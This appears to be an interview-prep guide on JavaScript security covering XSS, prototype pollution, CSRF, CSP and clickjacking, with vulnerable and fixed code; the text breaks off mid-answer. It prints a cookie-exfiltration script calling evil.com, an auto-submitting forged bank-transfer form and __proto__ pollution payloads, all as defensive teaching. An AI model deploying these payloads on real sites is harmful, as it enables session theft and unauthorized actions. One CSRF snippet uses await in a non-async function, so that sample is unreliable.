

# JavaScript Security (XSS, Prototype Pollution, CSRF)

🎯 **Interview Weight:** expert (★★★) - JavaScript security is required
for any senior frontend or Node.js role; XSS, prototype pollution, and
CSRF are the top 3 JS-specific vulnerabilities in the OWASP Top 10

---

### 🎯 Model Answer

**30 seconds:**

> Three critical JavaScript security vulnerabilities: (1) XSS
> (Cross-Site Scripting) - attacker injects script into trusted page,
> executes in victim's browser. Prevent with output encoding and
> Content Security Policy. (2) Prototype Pollution - attacker modifies
> `Object.prototype` via untrusted input, affecting all objects. Prevent
> by sanitizing `__proto__`, `constructor`, `prototype` keys. (3) CSRF
> (Cross-Site Request Forgery) - malicious site triggers authenticated
> request. Prevent with SameSite cookies and CSRF tokens.

**3 minutes:**

> **XSS Attack Types:**
> - Reflected: malicious script in URL reflected by server in response
> - Stored: script saved to DB, served to all visitors
> - DOM-based: script injected via client-side DOM manipulation
>   (no server involvement)
>
> **Prototype Pollution Attack:**
> - JavaScript objects inherit from `Object.prototype`
> - If `obj['__proto__']['isAdmin'] = true` executes, ALL objects
>   gain `isAdmin: true`
> - Common vector: deep merge/assign of untrusted JSON
>
> **CSRF Attack:**
> - Victim is logged into bank.com
> - Attacker's malicious.com makes victim's browser POST to bank.com
> - Bank sees valid session cookie, executes transfer
>
> Defenses: Content Security Policy (XSS), `Object.create(null)` +
> key validation (prototype pollution), SameSite=Strict cookies (CSRF).

**Blank Mind Recovery:**

**(1) Restate:** "XSS = injected script runs in browser - use CSP +
output encoding. Prototype pollution = `__proto__` injection affects
all objects - sanitize keys. CSRF = forged cross-site requests -
SameSite cookies + CSRF tokens."

---

### 📘 Concept Explanation

**What it is:**

JavaScript security vulnerabilities arise from the language's dynamic
nature, DOM manipulation capabilities, prototype inheritance model,
and the browser's cross-origin request behavior. These vulnerabilities
are distinct from server-side security issues and require JavaScript-
specific defenses.

**The problem it solves:**

JavaScript runs in an untrusted environment (the browser) with direct
access to the DOM, cookies, localStorage, and the ability to make
HTTP requests. Attackers exploit these capabilities to steal credentials,
impersonate users, and execute unauthorized actions.

**How it works:**

```
XSS ATTACK FLOW:

  1. Stored XSS:
  Attacker posts:
  "Great product! <script>fetch('https://evil.com/steal?c='+document.cookie)</script>"

  User visits page:
  Browser renders message -> executes script
  -> victim's cookies sent to attacker

  2. DOM-based XSS:
  // Vulnerable code:
  document.getElementById('msg').innerHTML =
    location.hash.substring(1);
  // URL: https://app.com/page#
  // No server involvement - purely client-side

  3. Reflected XSS:
  // Server renders URL parameter unsanitized:
  <p>Search results for: ${req.query.q}</p>
  // URL: https://app.com/search?q=<script>alert(1)</script>

PROTOTYPE POLLUTION ATTACK:

  // Attacker controls deep merge input:
  const payload = JSON.parse('{"__proto__": {"isAdmin": true}}');
  // Deep merge function:
  function merge(target, source) {
    for (const key in source) {
      if (typeof source[key] === 'object') {
        merge(target[key], source[key]);
      } else {
        target[key] = source[key];
      }
    }
  }
  merge({}, payload);
  // Now: ({}).isAdmin === true (EVERY object in the app!)

  // Downstream code victim:
  if (user.isAdmin) {  // true for ALL users now
    showAdminPanel();
  }

CSRF ATTACK FLOW:

  1. User logs into bank.com (session cookie set)
  2. User visits malicious.com (in same browser)
  3. malicious.com contains:
     <form action="https://bank.com/transfer"
           method="POST">
       <input name="to" value="attacker">
       <input name="amount" value="10000">
     </form>
     <script>document.forms[0].submit()</script>
  4. Browser sends POST to bank.com WITH session cookie
  5. Bank sees valid session, executes transfer

  KEY: The browser automatically sends cookies with cross-origin
  requests (unless SameSite=Strict is set)

DEFENSES:

  XSS:
  - Output encoding: never use innerHTML with untrusted data
  - textContent instead of innerHTML for text
  - DOMPurify for HTML sanitization
  - Content-Security-Policy header restricts script sources

  PROTOTYPE POLLUTION:
  - Validate/reject __proto__, constructor, prototype keys
  - Use Object.create(null) for dictionary objects
  - Use Map instead of plain objects for user-controlled keys
  - JSON.parse is safe (doesn't set __proto__ property)
  - Libraries: lodash fixed in 4.17.12+

  CSRF:
  - SameSite=Strict cookies: browser won't send cookie cross-origin
  - SameSite=Lax: sent for top-level navigation, not for AJAX
  - CSRF tokens: secret value validated server-side
  - Custom headers: fetch/XHR allows custom headers, simple forms don't
    (check for X-Requested-With)
  - Origin/Referer header validation
```

**Why it matters:**

These are real-world, high-severity vulnerabilities. XSS was OWASP #3
(2021). Prototype pollution has caused critical vulnerabilities in
Express.js, lodash, and dozens of major npm packages. CSRF led to mass
account compromises before SameSite cookies.

**Mental model:**

> XSS: think of innerHTML as `eval()` - never pass untrusted input to
> either. Prototype pollution: think of it as SQL injection for
> JavaScript - user input is treated as code (object key) that modifies
> the entire runtime. CSRF: think of cookies as signatures that the
> browser always attaches - SameSite tells the browser "only attach
> this signature to requests originating from my site."

**Scale behavior:**

At scale, XSS in a stored comment field affects every user who views
that page. Prototype pollution in a shared server-side Node.js process
(before `Object.prototype` is restored) affects all concurrent requests
for the lifetime of the process. CSRF attacks are automated and scripted.

---

### 💻 Code Example

**Real attack vectors and their mitigations**

```javascript
// ======================== XSS ========================

// BAD: directly setting innerHTML with user data
function displayComment(comment) {
  document.getElementById('comment').innerHTML = comment;
  // If comment = '<script>steal()</script>', executes!
}

// GOOD: use textContent (never executes scripts)
function displayComment(comment) {
  document.getElementById('comment').textContent = comment;
  // Renders as literal text, not HTML
}

// GOOD: sanitize if HTML rendering needed
import DOMPurify from 'dompurify';
function displayRichComment(htmlComment) {
  const clean = DOMPurify.sanitize(htmlComment, {
    ALLOWED_TAGS: ['b', 'i', 'em', 'strong'],
    ALLOWED_ATTR: [],  // No attributes (no onclick, etc.)
  });
  document.getElementById('comment').innerHTML = clean;
}

// Content-Security-Policy (set as HTTP header):
// Content-Security-Policy: default-src 'self';
//   script-src 'self' 'nonce-{random}';
//   style-src 'self';
//   img-src 'self' data:;
// Prevents inline scripts AND untrusted script sources

// ================ PROTOTYPE POLLUTION ================

// BAD: naive deep merge (vulnerable)
function deepMerge(target, source) {
  for (const key in source) {
    if (source[key] && typeof source[key] === 'object') {
      target[key] = target[key] || {};
      deepMerge(target[key], source[key]);
    } else {
      target[key] = source[key];
    }
  }
  return target;
}
// deepMerge({}, JSON.parse('{"__proto__":{"admin":true}}'))
// -> Object.prototype.admin === true (POLLUTED)

// GOOD: safe deep merge (key validation)
function safeMerge(target, source) {
  for (const key of Object.keys(source)) {
    // Explicitly block pollution keys:
    if (key === '__proto__' ||
        key === 'constructor' ||
        key === 'prototype') {
      continue;  // Skip dangerous keys
    }
    if (source[key] && typeof source[key] === 'object'
        && !Array.isArray(source[key])) {
      target[key] = target[key] || {};
      safeMerge(target[key], source[key]);
    } else {
      target[key] = source[key];
    }
  }
  return target;
}

// BETTER: use Map for user-controlled keys
const userSettings = new Map();
userSettings.set('theme', userInput.theme);
// Maps have no prototype pollution risk

// BEST: Object.create(null) for dictionaries
const safeDict = Object.create(null);
safeDict['__proto__'] = 'safe';
// safeDict has NO prototype - __proto__ is just a data key

// ==================== CSRF ====================

// Server: set SameSite cookie (most effective defense)
// Set-Cookie: session=abc123;
//   HttpOnly; Secure; SameSite=Strict

// Server: CSRF token pattern (for older browser compat)
// Express.js with csurf (or custom implementation):
const csrfTokens = require('csrf');
const tokens = new csrfTokens();

app.get('/form', (req, res) => {
  const secret = await tokens.secret();
  req.session.csrfSecret = secret;
  const token = tokens.create(secret);
  res.render('form', { csrfToken: token });
});

app.post('/transfer', (req, res) => {
  const valid = tokens.verify(
    req.session.csrfSecret,
    req.body._csrf
  );
  if (!valid) return res.status(403).send('CSRF detected');
  // Process transfer...
});

// Client: include CSRF token in requests
async function transfer(amount, to) {
  const response = await fetch('/api/transfer', {
    method: 'POST',
    headers: {
      'Content-Type': 'application/json',
      'X-CSRF-Token': getCsrfToken(),
      // Custom header: cross-origin requests can't set custom
      // headers without CORS preflight - effective CSRF defense
    },
    credentials: 'include',
    body: JSON.stringify({ amount, to }),
  });
}
```

> **Code walkthrough:** The XSS example shows the critical distinction
> between `innerHTML` (parses HTML, executes scripts) and `textContent`
> (treats input as literal text). DOMPurify is the industry-standard
> sanitizer that allowlists specific HTML tags and removes all event
> handlers. The prototype pollution example demonstrates the `__proto__`
> key injection - iterating with `for...in` includes prototype chain
> keys, while `Object.keys()` only returns own properties. The key fix
> is explicit key validation (blocklist) plus using null-prototype
> objects or Maps for user-controlled data. The CSRF section shows both
> the server-side SameSite flag (preferred, modern) and the CSRF token
> pattern (backward-compatible fallback).

---

### 🎓 Answers by Seniority

**Junior / Mid:**

> XSS: user input in innerHTML executes scripts - use textContent or
> sanitize with DOMPurify. CSRF: forged cross-origin requests - prevent
> with SameSite=Strict cookies. Prototype pollution: `__proto__` in
> user input modifies all objects - validate keys in merge functions.

**Senior / Staff:**

> These vulnerabilities form a defense-in-depth strategy. XSS requires:
> output encoding (textContent vs innerHTML), CSP header (blocks
> injected scripts even if encoding fails), and Trusted Types API
> (enforces encoding at the sink). Prototype pollution requires:
> key sanitization in merge utilities, Object.create(null) for
> dictionaries, and frozen Object.prototype in security-sensitive
> contexts (`Object.freeze(Object.prototype)`). CSRF requires: SameSite
> cookies (primary), CSRF tokens (defense-in-depth for mutations),
> and Origin header validation. At the architecture level: JWT in
> Authorization header (not cookies) sidesteps CSRF entirely. Content
> Security Policy nonces prevent inline script injection. Subresource
> Integrity (SRI) prevents CDN compromise XSS. Defense-in-depth: if
> one layer fails, others prevent the attack.

---

### ⚖️ Comparison Table

| Vulnerability | Attack Vector | Impact | Primary Defense |
|---|---|---|---|
| Reflected XSS | URL parameter rendered unsanitized | Session theft, account takeover | Output encoding + CSP |
| Stored XSS | User content saved + rendered | Affects all visitors | Output encoding + DOMPurify |
| DOM XSS | Client-side innerHTML/eval | No server needed | textContent + Trusted Types |
| Prototype Pollution | Deep merge of untrusted JSON | Global runtime corruption | Key validation + null-proto objects |
| CSRF | Forged cross-origin request | Unauthorized actions | SameSite=Strict cookies |
| Clickjacking | iframe overlay | Tricked UI interaction | X-Frame-Options / CSP frame-ancestors |

---

### 🏛️ System Design

**Defense-in-depth security architecture for a financial web app:**

```
LAYERED SECURITY ARCHITECTURE:

  Browser:
  - Content Security Policy: restricts script/style/img sources
  - Trusted Types: enforces output encoding at DOM sinks
  - SameSite=Strict cookies: CSRF prevention
  - HttpOnly cookies: XSS cookie theft prevention
  - Secure cookies: HTTPS-only transmission

  Frontend Code:
  - textContent over innerHTML (default)
  - DOMPurify for rich text rendering
  - CSRF token in custom header for state-changing requests
  - Input validation before any DOM insertion

  API Gateway / Server:
  - CORS: restrict allowed origins
  - Validate Content-Type (prevents some CSRF with JSON APIs)
  - Rate limiting on auth endpoints
  - CSRF token validation for POST/PUT/DELETE

  Input Processing:
  - Sanitize __proto__/constructor/prototype in all merge operations
  - Use JSON Schema validation for all incoming JSON
  - Reject unknown keys in strict mode

  Node.js Process:
  - Object.freeze(Object.prototype) in security-critical contexts
  - Avoid eval, Function constructor, vm.runInNewContext
    with untrusted input
  - Dependency audit: npm audit / Snyk for prototype pollution
    in transitive dependencies (lodash, qs, etc.)

  SECURITY HEADERS (Express.js with helmet):
  app.use(helmet({
    contentSecurityPolicy: {
      directives: {
        defaultSrc: ["'self'"],
        scriptSrc: ["'self'", (req, res) => `'nonce-${res.locals.nonce}'`],
        styleSrc: ["'self'"],
        imgSrc: ["'self'", "data:"],
        connectSrc: ["'self'"],
        frameAncestors: ["'none'"],
      }
    },
    hsts: { maxAge: 31536000, includeSubDomains: true },
    xFrameOptions: { action: 'deny' },
  }));
```

---

### 📊 Diagram

```
XSS ATTACK AND DEFENSE:

  Attacker stores:   <script>steal(cookies)</script>
              |
              v
        [Database]
              |
              v  Server renders without encoding
        [HTML Page]
              |
              v  Browser executes injected script
        [Victim Browser] -> sends cookies to attacker

  DEFENSE LAYERS:
  1. Output encoding: & < > " ' -> &amp; &lt; etc.
  2. textContent: treats input as text, not HTML
  3. DOMPurify: strips dangerous HTML elements
  4. CSP: blocks inline scripts and untrusted sources
```



> **Diagram walkthrough:** The sequence diagram shows the stored XSS
> lifecycle. The attack succeeds because the server stores and re-renders
> user input without sanitization. The defense shows two complementary
> layers: output encoding (server converts `<script>` to `&lt;script&gt;`,
> browser renders it as text) and Content Security Policy (even if
> encoding fails, CSP blocks the script from executing because it's
> inline and no `unsafe-inline` directive is set). Neither defense alone
> is sufficient; together they provide defense-in-depth.

---

### ⚠️ Common Misconceptions

**"JSON.parse is vulnerable to prototype pollution"**

`JSON.parse('{"__proto__": {"x": 1}}')` does NOT pollute Object.prototype.
JSON.parse creates a plain object where `__proto__` is treated as a
regular string key (the resulting object has `__proto__` as an own
property via defineProperty with no special magic). The vulnerability
is in MERGE functions that iterate object keys and use bracket notation
(`target[key] = value`) where `target['__proto__']` DOES access the
prototype. JSON.parse itself is safe.

**"HttpOnly cookies prevent XSS"**

HttpOnly prevents SCRIPT ACCESS to cookies (`document.cookie` returns
nothing for HttpOnly cookies). But XSS can still: make authenticated
HTTP requests on the victim's behalf (the browser sends HttpOnly cookies
automatically), access localStorage/sessionStorage (not protected by
HttpOnly), manipulate the DOM to extract secrets displayed on the page,
and keylog or capture form inputs. HttpOnly is important but not an
XSS silver bullet.

---

### 🚨 Failure Modes and Diagnosis

**Prototype pollution vulnerability in production:**

```javascript
// SYMPTOM: Users gaining admin access unexpectedly
// All users return truthy for privilege checks
// Started after library update

// DIAGNOSIS:
// Check if Object.prototype has been modified:
console.log(
  Object.getOwnPropertyNames(Object.prototype)
);
// Should only contain built-in methods
// If it contains 'isAdmin', 'role', etc.: POLLUTED

// FIND THE VULNERABILITY:
// Search codebase for deep merge patterns:
// grep -r "for.*in.*source" src/
// grep -r "Object.assign" src/  <- not vulnerable to proto pollution
// grep -rn "merge\|extend\|assign" package-lock.json | grep lodash

// CHECK FOR VULNERABLE LODASH VERSION:
// lodash < 4.17.12 is vulnerable
// npm audit -> shows prototype pollution advisories

// IMMEDIATE MITIGATION:
Object.freeze(Object.prototype);
// After this: assignments to Object.prototype throw in strict mode
// Or silently fail in non-strict mode (no further pollution possible)

// LONG-TERM FIX:
// 1. Update lodash to 4.17.21+
// 2. Validate keys in all merge functions
// 3. Switch to Object.create(null) for config objects
// 4. Add test for pollution:
test('deep merge does not pollute prototype', () => {
  safeMerge({}, JSON.parse('{"__proto__":{"evil":true}}'));
  expect({}.evil).toBeUndefined();
});
```

---

### 🎯 Interview Deep-Dive

| Scenario | Recommended Time | Key Signal |
|---|---|---|
| Explain XSS types and defenses | 4-5 min | All 3 types + CSP |
| Demonstrate prototype pollution | 5-6 min | Attack + fix |
| CSRF attack flow and defenses | 4-5 min | SameSite |
| CSP directives explained | 3-4 min | nonce, strict-dynamic |
| Trusted Types API | 3-4 min | DOM sink enforcement |
| HttpOnly vs SameSite vs Secure | 3-4 min | Cookie attributes |
| textContent vs innerHTML | 2-3 min | XSS prevention |
| Object.freeze(Object.prototype) | 3-4 min | Pollution prevention |
| CSRF with JSON APIs vs forms | 3-4 min | Content-Type check |
| Dependency scanning for security | 2-3 min | npm audit / Snyk |
| Clickjacking defense | 2-3 min | X-Frame-Options |
| XSS in React - dangerouslySetInnerHTML | 3-4 min | React specifics |

---

**Q1: What are the three types of XSS and how do you defend against
each?** `[SENIOR]` MECHANISM

> **Answer:**
>
> **Reflected XSS**: malicious script in HTTP request is reflected
> in the response (URL parameter, form input). The victim is tricked
> into clicking a crafted link.
>
> ```
> Attack URL: https://app.com/search?q=<script>steal()</script>
> Server: <h1>Results for: {{q}}</h1>  <- unsanitized
> Browser: executes the script
> ```
>
> Defense: server-side output encoding. Never render user input
> as HTML without encoding `< > & " '` to HTML entities.
>
> **Stored XSS**: malicious script saved to a database (comments,
> profile fields) and rendered for all visitors. More severe because
> it's persistent and affects all users without requiring a crafted link.
>
> Defense: encode on output (not just on input). Apply DOMPurify
> or equivalent when rendering any user-generated HTML.
>
> **DOM-based XSS**: malicious script injected through client-side
> code that reads from URL fragments, localStorage, postMessage,
> without server involvement.
>
> ```javascript
> // Vulnerable:
> const name = new URLSearchParams(location.search).get('name');
> document.getElementById('greeting').innerHTML = `Hello, ${name}!`;
> // No server renders this - pure client-side vulnerability
> ```
>
> Defense: use `textContent` instead of `innerHTML`. For DOM
> manipulation that requires HTML: use Trusted Types to enforce
> that all HTML assignments go through a sanitizer.
>
> **Universal XSS defense layer - Content Security Policy:**
> ```
> Content-Security-Policy: default-src 'self';
>   script-src 'self' 'nonce-{random-per-request}';
>   object-src 'none'; base-uri 'none';
> ```
> Even if injection occurs, CSP blocks execution of scripts not
> matching the nonce or trusted source.
>
> *What separates good from great:* The most sophisticated defense
> is Trusted Types (Chrome, with polyfills available). It enforces
> that every "dangerous sink" (`innerHTML`, `document.write`,
> `eval`, script `src`) only receives values from trusted "policy"
> objects - not raw strings. This turns XSS into a compile-time/
> lint error rather than a runtime attack. Google uses Trusted Types
> across all its web properties.

**Q2: Explain prototype pollution: attack, impact, and all defenses.**
`[STAFF]` MECHANISM

> **Answer:**
>
> **The attack:**
> JavaScript's prototype chain means all objects inherit from
> `Object.prototype`. If an attacker can assign to `Object.prototype`,
> they modify the behavior of EVERY object in the application.
>
> ```javascript
> // Attacker-controlled JSON:
> const input = '{"__proto__": {"isAdmin": true}}';
>
> // Vulnerable deep merge:
> function merge(target, source) {
>   for (const key in source) {
>     if (typeof source[key] === 'object') {
>       target[key] = target[key] || {};
>       merge(target[key], source[key]);
>     } else {
>       target[key] = source[key];  // target['__proto__']['isAdmin'] = true
>     }
>   }
> }
> merge({}, JSON.parse(input));
>
> // After attack:
> const user = { name: 'Alice' };
> user.isAdmin;  // true (inherited from Object.prototype!)
> ({}).isAdmin;  // true - EVERY object in the process
> ```
>
> **Impact levels:**
> - Property injection: add arbitrary properties to all objects
> - Denial of service: overwrite `toString`, `valueOf`, causing crashes
> - Remote code execution: in some contexts, polluting `__proto__.env`
>   can affect child process spawning
>
> **All defenses (defense-in-depth):**
>
> ```javascript
> // 1. KEY VALIDATION (safest for merge functions)
> if (['__proto__', 'constructor', 'prototype']
>     .includes(key)) continue;
>
> // 2. Object.create(null) - no prototype to pollute
> const safe = Object.create(null);
> safe['__proto__'] = 'just data'; // harmless
>
> // 3. Map for user-controlled keys
> const settings = new Map();
> settings.set(userKey, userValue); // no prototype chain
>
> // 4. Object.freeze(Object.prototype)
> Object.freeze(Object.prototype);
> // All prototype assignments throw (strict) or silently fail
>
> // 5. JSON Schema validation
> const Ajv = require('ajv');
> // Reject payloads with __proto__ keys before processing
>
> // 6. hasOwnProperty check in merge
> if (!Object.prototype.hasOwnProperty.call(source, key)) continue;
> // But: call 'in' operator vs hasOwnProperty - prefer own check
> ```
>
> *What separates good from great:* Real-world prototype pollution
> has compromised lodash (affects Express apps), qs (affects URL
> parsing), merge-deep, and dozens of other libraries. The attack
> was demonstrated to achieve RCE in several Node.js applications.
> The production lesson: treat `npm audit` as a security requirement,
> pin dependency versions, use Snyk or Dependabot for automated
> vulnerability scanning. Prototype pollution in transitive dependencies
> is as dangerous as in direct dependencies.

**Q3: How does SameSite=Strict prevent CSRF and what are the
limitations?** `[SENIOR]` MECHANISM

> **Answer:**
>
> CSRF exploits the fact that browsers automatically include cookies
> with cross-origin requests. `SameSite` instructs the browser NOT
> to send cookies in cross-site contexts.
>
> ```
> SameSite values:
>
> Strict: cookie NEVER sent in cross-site requests
>   - Not on link navigation from another site
>   - Not on form posts from another site
>   - Not on XHR/fetch from another site
>   Limitation: breaks "login from link" UX
>   (user clicks link in email -> no session cookie sent)
>
> Lax: cookie sent only for "safe" top-level navigation
>   - YES: clicking a link (top-level navigation + GET)
>   - NO: form POST, XHR/fetch, iframe
>   Default in modern Chrome (2020+) when SameSite not set
>   Limitation: doesn't prevent CSRF via GET requests
>              (state-changing GET is already bad practice)
>
> None: cookie sent in all cross-site contexts
>   - Requires Secure (HTTPS only)
>   - Needed for embedded widgets, OAuth flows, cross-site APIs
> ```
>
> Setting the cookie correctly:
> ```javascript
> // Express.js:
> res.cookie('session', token, {
>   httpOnly: true,    // No JavaScript access
>   secure: true,      // HTTPS only
>   sameSite: 'strict', // No cross-site sending
>   maxAge: 3600000,   // 1 hour
>   path: '/',
> });
> // Cookie header: Set-Cookie: session=...; HttpOnly; Secure;
> //                SameSite=Strict; Max-Age=3600; Path=/
> ```
>
> **Limitations and complementary defenses:**
> - Old browsers (IE, old Safari) don't support SameSite
>   -> Add CSRF tokens for compatibility
> - Cross-origin requests your own site makes (OAuth callbacks)
>   -> Use SameSite=Lax for session cookies, Strict for action tokens
> - Subdomain attacks: `SameSite` does not protect against
>   `evil.yourdomain.com` (same site) -> CSRF tokens still needed
>
> *What separates good from great:* SameSite=Strict combined with
> Authorization headers (not cookies) is the modern API design that
> eliminates CSRF entirely. REST APIs that use `Authorization: Bearer
> {token}` (set via JavaScript, not automatically by browser) cannot
> be CSRF'd because cross-origin form submissions and img src requests
> cannot set custom headers. This is why JWT + Authorization header
> is preferred over session cookies for APIs used by SPAs - it removes
> an entire class of vulnerability by design.

**Q4: What is Content Security Policy and how do nonces work?**
`[SENIOR]` MECHANISM

> **Answer:**
>
> Content Security Policy (CSP) is an HTTP header that instructs the
> browser about which resources are allowed to load and execute. It
> is the most powerful XSS mitigation because it operates as a
> whitelist AFTER output encoding fails.
>
> ```
> Content-Security-Policy: default-src 'self';
>   script-src 'self' 'nonce-{base64-random}';
>   style-src 'self' 'nonce-{base64-random}';
>   img-src 'self' data: https://cdn.example.com;
>   object-src 'none';
>   base-uri 'none';
>   frame-ancestors 'none';
>
> directive meanings:
>   default-src 'self'    -> only load from same origin by default
>   script-src 'nonce-x'  -> only execute scripts with nonce attribute
>   object-src 'none'     -> no plugins (Flash, etc.)
>   base-uri 'none'       -> prevent base tag hijacking
>   frame-ancestors 'none' -> no iframe embedding (clickjacking)
> ```
>
> **Nonce mechanism:**
> ```javascript
> // Server generates random nonce per request:
> import crypto from 'crypto';
> app.use((req, res, next) => {
>   res.locals.nonce = crypto.randomBytes(16).toString('base64');
>   res.setHeader(
>     'Content-Security-Policy',
>     `script-src 'nonce-${res.locals.nonce}'`
>   );
>   next();
> });
>
> // Template includes nonce on legitimate scripts:
> // <script nonce="{{nonce}}">...</script>
>
> // Injected script has no nonce:
> // <script>steal()</script>
> // Browser checks: no matching nonce -> BLOCKED
>
> // Attacker cannot predict the nonce (crypto random, per-request)
> // Even if they inject a script tag, it has no valid nonce
> ```
>
> *What separates good from great:* The `strict-dynamic` directive
> is the modern evolution. Instead of listing all trusted script sources
> (brittle, easy to misconfigure), `strict-dynamic` propagates trust
> from a nonce to scripts the trusted script loads dynamically. This
> works with script loaders, bundlers, and third-party code. Combined
> with `'unsafe-inline'` disabled and `object-src 'none'` and
> `base-uri 'none'`, this is the "strict CSP" recommended by Google.

**Q5: How does dangerouslySetInnerHTML work in React and when is it
unsafe?** `[MID]` MECHANISM

> **Answer:**
>
> React's `dangerouslySetInnerHTML` is the React API for setting raw
> HTML on a DOM element, equivalent to `element.innerHTML`. The name
> is intentionally alarming to discourage misuse.
>
> ```jsx
> // BAD: user input in dangerouslySetInnerHTML
> function Comment({ text }) {
>   return (
>     <div dangerouslySetInnerHTML={{ __html: text }} />
>   );
>   // If text = ''
>   // React renders it -> browser executes onerror
> }
>
> // GOOD: sanitize before setting
> import DOMPurify from 'dompurify';
> function Comment({ text }) {
>   const sanitized = DOMPurify.sanitize(text);
>   return (
>     <div dangerouslySetInnerHTML={{ __html: sanitized }} />
>   );
> }
>
> // BEST: avoid dangerouslySetInnerHTML for user content
> function Comment({ text }) {
>   // React automatically escapes JSX expressions:
>   return <div>{text}</div>;
>   // Renders as text, not HTML - XSS-safe by default
> }
> ```
>
> React's JSX expressions (`{value}`) automatically HTML-encode values,
> so XSS via normal JSX rendering is prevented. The ONLY risk is
> `dangerouslySetInnerHTML` with unsanitized content. Using it with
> trusted, static content (e.g., server-rendered help text) is safe.
> Using it with user-generated content requires sanitization.
>
> *What separates good from great:* React's SSR (`renderToString`)
> also HTML-encodes JSX expressions, so XSS in server-rendered React
> requires explicitly bypassing encoding. However, hydration mismatches
> can be exploited: if an attacker can cause the server-rendered HTML
> to differ from what the client-side hydration expects, React may
> accept the server's HTML (including injected content) without
> re-rendering. This is a subtle attack vector in SSR applications
> where the data source is untrusted.

**Q6: What is clickjacking and how is it prevented?** `[MID]`
MECHANISM

> **Answer:**
>
> Clickjacking (UI redressing) places a transparent `<iframe>` of
> a trusted site over a malicious page. The user thinks they're
> clicking the malicious page's buttons but are actually clicking
> through to the trusted iframe.
>
> ```
> Attack:
>   malicious.com shows: "Click to win a prize!"
>   Underneath (invisible iframe): bank.com/transfer-button
>   User clicks "prize" button -> actually clicks bank.com's transfer
> ```
>
> **Defenses:**
>
> ```javascript
> // 1. X-Frame-Options header (older, widely supported)
> res.setHeader('X-Frame-Options', 'DENY');
> // or: 'SAMEORIGIN' (allow own-site framing)
>
> // 2. CSP frame-ancestors (modern, supersedes X-Frame-Options)
> res.setHeader(
>   'Content-Security-Policy',
>   "frame-ancestors 'none'"
>   // Or: "frame-ancestors 'self'"
> );
>
> // 3. JavaScript frame-busting (weak, easily bypassed):
> if (window.top !== window.self) {
>   window.top.location = window.self.location;
> }
> // Attackers bypass with: <iframe sandbox="allow-scripts">
> // CSP is the reliable solution
> ```
>
> *What separates good from great:* X-Frame-Options and CSP
> `frame-ancestors` are complementary: X-Frame-Options for older
> browsers, CSP for modern ones. The `frame-ancestors` directive is
> more powerful because it supports multiple allowed origins and can
> be set per-route. For sensitive actions (payment confirmations,
> account deletion), always set `frame-ancestors 'none'` to prevent
> UI redressing attacks regardless of whether the main app uses framing.

**Q7: How do you prevent XSS in a Node.js/Express.js REST API?**
`[SENIOR]` SYSTEM-DESIGN

> **Answer:**
>
> A REST API returning JSON has a different XSS surface than an HTML
> application, but there are still vulnerabilities:
>
> ```javascript
> // 1. SET CORRECT CONTENT-TYPE (prevents JSON as HTML)
> app.use(express.json());
> // Ensure responses use application/json:
> app.get('/data', (req, res) => {
>   res.json({ name: userInput });  // Sets Content-Type: application/json
>   // Browser won't parse as HTML even if content looks like HTML
> });
>
> // 2. NEVER REFLECT UNSANITIZED INPUT IN HTML RESPONSES
> // Endpoints that return HTML (error pages, redirects) are at risk:
> app.get('/error', (req, res) => {
>   // BAD:
>   res.send(`<h1>Error: ${req.query.message}</h1>`);
>   // GOOD: encode or use template engine with auto-escaping
>   res.send(`<h1>Error: ${escapeHtml(req.query.message)}</h1>`);
> });
>
> // 3. SECURITY HEADERS (helmet.js)
> import helmet from 'helmet';
> app.use(helmet());
> // Sets: X-Content-Type-Options: nosniff (prevents MIME sniffing)
> //       X-XSS-Protection: 0 (disable legacy XSS filter, use CSP)
> //       Strict-Transport-Security (forces HTTPS)
>
> // 4. INPUT VALIDATION AT BOUNDARIES
> import { z } from 'zod';
> const UserSchema = z.object({
>   name: z.string().max(100).regex(/^[a-zA-Z\s]+$/),
>   // Reject names with special characters at API boundary
> });
>
> // 5. SANITIZE BEFORE STORING (belt-and-suspenders)
> import createDOMPurify from 'isomorphic-dompurify';
> const DOMPurify = createDOMPurify(new JSDOM('').window);
> function sanitizeHtml(input) {
>   return DOMPurify.sanitize(input);
> }
> ```
>
> *What separates good from great:* The most important defense for
> REST APIs is `X-Content-Type-Options: nosniff`. Without it, if
> an API endpoint returns user data and the browser MIME-sniffs it as
> HTML (e.g., the response content looks like HTML), it can be rendered
> and scripts executed. `nosniff` prevents the browser from overriding
> the `Content-Type` header. Combined with always setting explicit
> `Content-Type: application/json` on JSON responses, this prevents
> the entire category of API XSS.

**Q8: What is the Same-Origin Policy and how does CORS relate to it?**
`[SENIOR]` MECHANISM

> **Answer:**
>
> The Same-Origin Policy (SOP) is the browser security model that
